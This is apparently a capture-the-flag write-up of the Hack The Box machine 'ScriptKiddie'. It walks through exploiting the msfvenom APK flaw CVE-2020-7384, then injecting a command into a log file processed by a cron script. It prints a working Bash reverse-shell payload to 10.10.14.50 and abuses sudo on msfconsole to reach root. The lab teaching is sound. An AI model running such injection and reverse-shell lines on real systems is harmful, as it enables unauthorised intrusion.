

**Script Kiddie!** 
What is the author (0xdf) implying to us?

A box for script kiddies? 
Or is it a box for us to stand out from the script kiddies? 
My guess would be the latter…

Keep in mind, the destination (root.txt) is not what’s important, it’s the journey (every line that got us to root.txt) that counts.

**With that said, let’s begin!**

---

## **Enumeration**

Nmap scan reveals `Werkzeug httpd 0.16.1 (Python 3.8.5)` running on port 5000.

---

Quite a few options are available to play with… Nmap, Msfvenom, Searchsploit…

---

The Werkzeug module available from Metasploit will spawn a Python shell, provided if we had access to a **Werkzeug debug console**. But since we don’t, this exploit is unusable for us.

---

## **Exploitation**

The exploit we are using is `CVE-2020–7384`, one that leverages the mishandling of apk files by Msfvenom to grant us a reverse shell.

We'll start by configuring the necessary parameters in Metasploit.

---

Setting up Netcat listener on port 4444.

---

With the `os` set as Android, `lhost` set as some funny ip, we can proceed to upload the APK.

---

***Voila!*** And we’ve got user access to the machine.

---

## **Privilege Escalation**

`/home/pwn/scanlosers.sh`

`home/kid/logs/hackers`

There’s an interesting script `scanlosers.sh`, within user directory of `pwn`, but we (the `kid` user) unfortunately only have read access to it.

That said, since it takes in input from the `hackers` file, which we is owned by us (`kid`). Thus, `scanlosers.sh` is still accessible by us in some ways.

---

After writing some random stuff into `hackers`, but the file seems to remain empty. It brought up suspicion that a cronjob of `scanlosers.sh` was running, as the last line of `scanlosers.sh` - `echo -n > $log` will clear the `hackers` file.

---

First Shell: echoing `hello` into `hackers`

Second Shell: running `pspy64`, catches the cronjob of our payload `hello`

To confirm our suspicion, we will use [**pspy**](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64), a command line tool designed for snooping on commands run by other users, cron jobs, etc.

I have downloaded the 64-bit binary version and used `nc` to transfer the binary over to the Script Kiddie machine. (feel free to skip this step or try it out for yourself)

1. Initiate two reverse shells.
2. The first shell runs our test payload `hello`
3. The second shell runs the `pspy64` binary, and was able to catch the details of the cronjob.

Indeed, we are able to confirm a cronjob was running in the background, meaning that `/home/pwn/scanlosers.sh` will be executed for each time `/home/kid/log/hackers` is being altered.

---

Some explanations, our payload is basically a [**Bash TCP Shell**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp). Description for each *gate* from `scanlosers.sh` are as following:

1. Remove `tuna` and `salmon`.
2. Sort our payload if it has more than one line, since we don’t, we’re good.
3. Stores our payload into the `ip` variable.

---

When our payload is parsed and executed, they will be run as:

1. `sh -c “nmap --top-ports 10 -oN recon/;` 
   Doesn't do anything since it is an incomplete nmap command, no ip address is supplied.
2. `/bin/bash -c ‘bash -i >&/dev/tcp/10.10.14.50/8888 0>&1’` 
   ***The Bash TCP Shell we need!***
3. `#.nmap ${ip} 2>&1 >/dev/null” &...` 
   Using the `#` to comment out everything else

---

Setting up Netcat listener on port 8888.

---

***Moment of Truth!***

Writing our payload into `hackers`.

`echo “tuna salmon ;/bin/bash -c ‘bash -i >&/dev/tcp/10.10.14.50/8888 0>&1’ #” >> hackers`

---

After having logged in as `pwn`, with `sudo -l` we found out that we are able to run `msfconsole` as root without the need of password.

---

Now let’s run `msfconsole` as sudo.

`sudo /opt/metasploit-framework-6.0.9/msfconsole`

---

***Jackpot!***

And there we have it!

## **Afterthoughts**

Overall, **ScriptKiddie** teaches the basic yet core concepts of the HTB platform:

- Metasploit
- Cronjobs
- Bash scripting
- `sudo -l`

It is one box that should definitely be recommend for the newcomers!